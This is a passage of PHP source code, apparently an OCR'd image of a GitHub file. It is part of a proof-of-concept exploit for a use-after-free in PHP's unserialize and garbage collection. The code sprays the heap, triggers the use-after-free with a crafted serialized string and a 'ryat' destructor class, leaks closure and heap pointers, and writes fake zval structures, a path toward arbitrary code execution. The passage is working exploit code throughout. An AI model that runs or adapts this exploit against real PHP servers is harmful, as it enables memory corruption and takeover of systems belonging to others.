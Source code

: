 ```php
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;

        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

```